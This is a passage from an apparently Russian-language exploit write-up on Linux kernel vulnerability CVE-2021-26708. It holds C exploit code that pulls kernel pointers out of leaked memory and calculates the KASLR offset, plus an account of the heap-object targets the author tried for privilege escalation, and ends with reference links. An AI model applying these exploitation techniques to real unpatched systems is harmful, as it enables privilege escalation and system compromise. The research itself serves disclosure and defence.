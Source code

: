 ```c
#define MSG_MSG_SZ		48
#define DATALEN_MSG 		(PAGE_SIZE - MSG_MSG_SZ)
#define SK_MEMCG_OFFSET 	664
#define SK_MEMCG_RD_LOCATION	(DATALEN_MSG + SK_MEMCG_OFFSET)
#define OWNER_CRED_OFFSET	840
#define OWNER_CRED_RD_LOCATION	(DATALEN_MSG + OWNER_CRED_OFFSET)
#define SK_WRITE_SPACE_OFFSET	688
#define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)

/*
 * From Linux kernel 5.10.11-200.fc33.x86_64:
 *   function pointer for calculating KASLR secret
 */
#define SOCK_DEF_WRITE_SPACE	0xffffffff819851b0lu

unsigned long sk_memcg = 0;
unsigned long owner_cred = 0;
unsigned long sock_def_write_space = 0;
unsigned long kaslr_offset = 0;

/* ... */

    sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
			sk_memcg, SK_MEMCG_RD_LOCATION);

    owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
			owner_cred, OWNER_CRED_RD_LOCATION);

    sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
			sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

    kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
    printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);
```

Структура `cred` выделяется ядром Linux в отдельном кэше аллокатора, который называется `cred_jar`. Если бы я использовал мой примитив освобождения произвольной памяти против структуры `cred`, я бы не смог перезаписать ее контролируемыми данными (по крайней мере, я не знаю, как это сделать). Жаль, это было бы идеальным завершением атаки.

Поэтому я сфокусировался на атаке объекта `mem_cgroup`. Я попробовал вызвать для него освобождение памяти, но ядро Linux после этого моментально ушло в отказ (kernel panic). К сожалению, оказалось, что ядро очень интенсивно использует этот объект. Снова неудача. Но тут я вспомнил про один из моих старых проверенных трюков для повышения привилегий в системе.

## Старый трюк с объектом sk_buff

В моем прототипе эксплойта для уязвимости [CVE-2017-2636][21] в ядре Linux я превратил двойное освобождение памяти из кэша аллокатора `kmalloc-8192` в использование после освобождения для объекта `sk_buff`. Я решил повторить этот трюк снова.


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: https://web.archive.org/web/20210308095728/http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://www.grsecurity.net/how_autoslab_changes_the_memory_unsafety_game
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers